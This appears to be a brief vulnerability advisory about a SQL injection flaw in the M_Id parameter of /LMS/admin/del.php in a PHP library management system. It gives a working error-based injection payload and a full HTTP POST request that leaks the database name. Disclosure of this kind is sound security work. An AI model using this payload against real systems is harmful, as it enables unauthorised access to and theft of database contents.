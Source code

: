 # Library Management System v1.0 by kingbhob02 has SQL injection

vendors: https://www.sourcecodester.com/php/15434/library-management-system-qr-code-attendance-and-auto-generate-library-card.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /LMS/admin/del.php

Vulnerability location: /LMS/admin/del.php, M_Id

[+] Payload: delete=&M_Id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--%20 // Leak place ---> M_Id

```sql
POST /LMS/admin/del.php HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: _ga=GA1.1.1382961971.1655097107
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 79

delete=&M_Id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--%20
```

![image](https://user-images.githubusercontent.com/54017627/180586114-9709e771-77b6-4c0d-bd6f-3e8253d610f4.png)
